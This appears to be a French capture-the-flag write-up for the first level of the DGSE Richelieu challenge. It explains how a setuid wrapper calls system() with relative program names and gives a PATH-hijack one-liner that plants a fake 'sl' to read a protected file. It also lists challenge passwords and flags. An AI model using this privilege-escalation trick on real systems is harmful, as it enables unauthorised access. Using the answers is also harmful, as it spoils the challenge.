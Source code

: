 # Challenge Richelieu de la DGSE - défi 1
https://www.challengecybersec.fr

## Pour se connecter à la machine du défi
```
ssh defi1.challengecybersec.fr -l defi1 -p 2222

mot de passe : DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
```

## Le challenge
```
defi1@AttrapeLeDrapeau:~$ ls -al
total 44
drwxr-xr-x 1 defi1         defi1         4096 May 10 10:50 .
drwxr-xr-x 1 root          root          4096 May 10 10:50 ..
-rw-r--r-- 1 defi1         defi1          220 May 15  2017 .bash_logout
-rw-r--r-- 1 defi1         defi1         3526 May 15  2017 .bashrc
-rw-r--r-- 1 defi1         defi1           32 May 10 10:50 .gdbinit
-rw-r--r-- 1 defi1         defi1          675 May 15  2017 .profile
-rw-r--r-- 1 defi1         defi1            7 May 10 10:50 .vimrc
-r-------- 1 defi1-drapeau defi1-drapeau  133 Apr 26 14:06 drapeau.txt
-r-sr-sr-x 1 defi1-drapeau defi1-drapeau 8752 May 10 10:50 prog.bin
```

Il y a un exécutable `prog.bin` _setuid_ et un fichier en lecture uniquement pour l'utilisateur `defi1-drapeau`.
Le but est donc d'utiliser ce programme pour accéder au fichier `drapeau.txt`.

C'est donc un _Capture The Flag_ (CTF) classique.

```
defi1@AttrapeLeDrapeau:~$ ./prog.bin
#################################################
##    Bienvenue dans ce lanceur (_wrapper_)    ##
#################################################
Ce logiciel vous permet de lancer ces programmes utiles simplement...
Menu :
   -> 1 : Affichage de la date et de l'heure actuelle
   -> 2 : Affichage du nombre de secondes écoulées depuis le 01/01/1970 (Epoch)
   -> 3 : Affichage du train
   -> 4 : Affichage du calendrier du mois en cours
```

## La vulnérabilité
`prog.bin` lance des binaires avec `system()`:
* choix 1: `date '+Nous sommes le %d/%m/%Y et il est %H:%M:%S'`
* choix 2: `date '+Nombre de secondes depuis Epoch : %s'`
* choix 3: `sl`
* choix 4: `cal`

Cela peut être observé avec [Ghidra](https://ghidra-sre.org), gdb, ou l'intuition.
Le chemin des binaires n'est pas absolu: la variable d'environnement `PATH` est donc utilisée.

## L'attaque
Il suffit d'altérer le `PATH` and ajoutant un programme `sl` (par exemple) avant `/usr/bin`. Ce programme sera exécuté avec les privilèges de l'utilisateur `defi1-drapeau` et permettra de consulter le fichier `drapeau.txt`.
```bash
echo "cat drapeau.txt" > sl; chmod a+x sl; PATH=$HOME:$PATH ; echo 3 | ./prog.bin
```

## Le drapeau
```
Suite du challenge Richelieu :

ssh defi2.challengecybersec.fr -l defi2 -p 2222

mot de passe : DGSE{H#M?W)el{0YZ-)77/C#ogrp}k4&EbP}
```

## Note
Pour récupérer `./prog.bin` ou autre depuis le container du challenge:

```bash
ssh defi1.challengecybersec.fr -l defi1 -p 2222 > prog.hex
DGSE{2f77c517b06f1cd1ce864f79f41f25ca8874413c8c1204f7ec9c6728c87f270a}
hexdump -ve '16/1 "%02x " "\n"' prog.bin
exit
grep -E "^([0-9a-z]{2} )+" prog.hex | xxd -r -p > prog.bin
chmod a+x prog.bin
```

---
*rene-d 26 mai 2019*
